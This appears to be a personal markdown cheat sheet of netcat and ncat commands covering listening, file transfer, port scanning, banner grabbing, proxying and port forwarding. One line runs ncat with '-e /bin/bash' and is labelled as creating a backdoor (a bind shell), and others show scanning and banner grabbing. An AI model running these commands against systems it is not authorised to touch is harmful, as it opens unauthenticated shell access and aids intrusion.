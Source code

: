 ### Netcat

### Establish a Connection 

$ nc -l 1234 —> listen on one console 
$ nc localhost 1234 —> establish connection on another console 
- Type `test` on second console to test 

### Transfer Data

$ nc -l 1234 > output.file 
$ nc localhost < input.file 

### Talking to Servers
$ sudo printf "GET / HTTP/1.0\r\n\r\n" | nc host.example.com 80

### Port Scanning 
$ sudo nc -zv host.example.com 1-1000

### Retrieve Banners and Versions
$ sudo echo "QUIT" | nc host.example.com 20-30

### Examples 
$ sudo nc -p 31337 -w 5 host.example.com 42 —> source port 31337 and wait 5 second to establish connection on port 42 on host.example.com 
$ sudo nc -u host.example.com 53 —> UDP 
$ sudo nc -s 10.1.2.3 host.example.com 42 —> source is 10.1.2.3 

——

# nc webserver.com 80
- GET /HTTL/1.1

$ ncat -v -u {host-ip} {udp-port} —> test remote UDP port 

$ ncat -l 8080 | ncat 192.168.1.200 80 —> one directional proxy 
$ mkfifo 2way
$ ncat -l 8080 0<2way | ncat 192.168.1.200 80 1>2way —> two way directional 

$ ncat -l 10000 -e /bin/bash —> execute bash on 10000 (create a backdoor)

$ ncat -u -l  80 -c  'ncat -u -l 8080' —> forward port 

$ ncat -w 10 192.168.1.100 8080 —> connection will be terminated in 10 seconds 

$ ncat -l -k 8080 —> keep listening after client is broken 